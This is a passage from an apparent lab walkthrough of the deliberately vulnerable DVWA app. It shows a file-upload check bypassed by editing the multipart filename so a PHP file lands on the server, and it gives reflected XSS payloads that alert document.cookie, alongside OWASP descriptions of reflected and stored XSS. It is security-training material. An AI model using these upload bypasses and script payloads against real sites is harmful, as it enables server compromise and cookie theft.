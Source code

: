 After uploading the file, the path where we can find it is conveniently provided:

*../../hackable/uploads/upload.php succesfully uploaded!*

Navigate to the file to see the command output:

``` plain
192.168.127.128/dvwa/vulnerabilities/upload/../../hackable/uploads/upload.php
```

On medium security, the code checks if the file is a jpeg image and under a certain size:

``` php
if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000))
```

However, this can be easily bypassed by intercepting the request and modifying the filename. Here is what I had in Live HTTP Headers:

<code>Content-Disposition: form-data; name="uploaded"; filename="upload.php%00.jpg"</code>

And I modified it to:

<code>Content-Disposition: form-data; name="uploaded"; filename="upload.php"\r\n</code>


### XSS reflected

[**Overview**](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Reflected_XSS_Attacks)
> Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or 
> any other response that includes some or all of the input sent to the server as part of the request. Reflected attacks are delivered to
> victims via another route, such as in an e-mail message, or on some other web site. When a user is tricked into clicking on a malicious
> link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web 
> site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a "trusted" server.
> Reflected XSS is also sometimes referred to as Non-Persistent or Type-II XSS. 

{% img center /images/dvwa/xss_reflected.png 'reflected xss' 'reflected xss' %}

Low security:

``` html
<script>alert(document.cookie)</script>
```

Medium security:

``` html
<SCRIPT>alert(document.cookie)</SCRIPT>
```

### XSS stored

[**Overview**](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Stored_XSS_Attacks)
> Stored attacks are those where the injected script is permanently stored on the target servers, such as in a database, in a message 
> forum, visitor log, comment field, etc. The victim then retrieves the malicious script from the server when it requests the stored 
> information. Stored XSS is also sometimes referred to as Persistent or Type-I XSS. 

